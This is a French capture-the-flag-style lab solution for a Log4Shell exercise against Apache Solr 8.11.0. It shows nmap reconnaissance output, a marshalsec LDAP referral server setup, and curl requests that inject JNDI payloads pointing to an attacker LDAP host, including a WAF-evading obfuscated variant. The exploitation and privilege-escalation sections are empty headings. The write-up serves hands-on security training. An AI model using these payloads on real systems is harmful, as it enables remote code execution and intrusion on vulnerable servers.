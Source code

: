 # Ce fichier a but pour de donner la solution du TP 'Red_Log4Shell'
# Les adresse IP ne sont pas forcément identiques.
# Cette solution sera en 4 parties :
## Partie   I : Reconnaissance
`nmap -sP 172.17.17.0/24`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-02 08:17 EDT
Nmap scan report for 172.17.17.2
Host is up (0.13s latency).
Nmap scan report for kali (172.17.17.139)
Host is up (1.3s latency).
Nmap scan report for 172.17.17.165
Host is up (0.40s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 18.89 seconds
```

`nmap -sS -sV -A -p- 172.17.17.165`
```
Nmap scan report for 172.17.17.165
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f2:7f:fc:28:53:0e:cf:2e:ca:71:fc:e7:1d:73:2f:6f (RSA)
|   256 25:58:a7:ff:9c:b7:5e:23:80:70:d4:f0:7c:1b:c2:39 (ECDSA)
|_  256 a5:8e:7b:b7:f6:d1:4c:fb:68:3f:3f:f7:ff:39:1d:29 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
MAC Address: 00:0C:29:C5:4E:A5 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: Host: RedBlueLab.com; OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
TRACEROUTE
HOP RTT      ADDRESS
1   14.86 ms 172.17.17.165
 
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.69 seconds
```
![Capture d'écran de la version d'Apache Solr](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/solr_version.png)

## Partie  II : Recherche d'une vulnérabilité sur l'application découverte
Maintenant que nous avons obtenu la technologie utilisée et les versions des applications, il faut explorer les potentielles vulnérabilités présentes sur ces applications. Ici, en cherchant sur internet, nous pouvons découvrir que sur la version 8.11.0. d’Apache Solr, la vulnérabilité Log4Shell est possible. Au chemin "/solr/admin/cores" du site tous les paramètres fournis sur cette page sont interprétés par Log4J.

Pour l’instant, tout ça reste hypothétique, il va falloir tester.
Pour réaliser l’attaque,il sera nécessaire d’ouvrir un serveur un serveur LDAP sur notre machine attaquante. En continuant nos recherches, l’outil "marshalsec" se révèle très utile. Nous aurons besoin d’un serveur Web, que l’on pourra obtenir facilement avec python.

Avant toute chose, il faut installer la même version de java que celle de l’application.
- Télécharger le paquet Java 8u181
`$ wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz`

- Décompresser le paquet
`$ tar -xzf jdk-8u181-linux-x64.tar.gz`

Ensuite, regardons si le point d’injection est correct, nous allons simplement initialiser une connexion LDAP vers notre machine attaque grâce à l’API JNDI.
Il faut ouvrir un serveur sur la machine attaquante avec la commande suivante : 
`$ jdk1.8.0_181/bin/java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1/#Payload"`

Il n’est pas encore nécessaire de spécifier un serveur Web car il s’agit d’un test.
Comme la charge utile doit être présente dans un paramètre, la requête qui sera envoyée ressemblera à ceci :
`$ curl 'http://172.17.17.165/solr/admin/cores?toto=$\{jndi:ldap://172.17.17.139:1389\}'`

L’exécution de cette commande, nous renvoie l’erreur suivante :
![Capture d'écran de l'erreur](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/erreur_waf.png)

Cette erreur peut nous faire penser qu’un WAF bloque notre requête, essayons la même commande mais avec un peu d’obfuscation : 
`$ curl 'http://172.17.17.165/solr/admin/cores?toto=${${lower:j}ndi:ldap://172.17.17.139:1389\}'`

Cette fois une connexion a bien été enregistrée sur notre serveur LDAP, ce qui signifie que l’application Web est belle et bien vulnérable à Log4Shell.
![Capture d'écran de la réponse du serveur LDAP](https://github.com/GetSun2EZ/RedBlue-Lab/blob/main/Images/ldap_local.png)

Nous pouvons aussi voir que le serveur LDAP redirige vers un serveur Web.

## Partie III : Exploitation de la vulnérabilité trouvée


## Partie  IV : Escalade de privilège


